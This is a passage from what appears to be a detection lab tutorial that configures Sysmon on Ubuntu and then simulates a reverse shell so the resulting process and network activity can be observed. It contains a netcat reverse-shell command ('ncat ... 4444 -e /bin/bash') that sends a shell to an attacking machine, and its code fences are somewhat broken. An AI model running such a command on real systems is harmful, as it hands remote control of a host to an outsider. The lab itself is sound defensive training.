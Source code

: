```
 <!--Event ID 23 == FileDelete -->
 <RuleGroup name="" groupRelation="or">
   <FileDelete onmatch="include" />
 </RuleGroup>
</EventFiltering>
</Sysmon>
```

- Save and restart Sysmon:

  ```bash

  sudo sysmon -i sysmon-config.xml

  sudo systemctl restart sysmon
  sudo systemctl status sysmon

  ```

---

### **Step 3: Simulate a Suspicious Process Execution**

1. **Simulate a Reverse Shell**:

   - On the **attacking machine**, use Netcat to create a listener:

     ```bash
     sudo apt install ncat net-tools -y
     ncat -lvnp 4444

     ```

   - On the **target server**, execute the reverse shell:

     ```bash

     ```

   sudo apt install ncat net-tools -y
   ncat <IP_ATTACK_MACHINE> 4444 -e /bin/bash

   ```

   - Replace `<attacker-ip>` with the IP address of the attacking machine.

   ```

2. **Verify the Process Execution on Victim machine**:

   - List running processes on the Ubuntu server:

   ```bash

   sudo lsof -i :4444
   netstat -tulnp | grep 4444
   ps -ef | grep ncat

   ```

---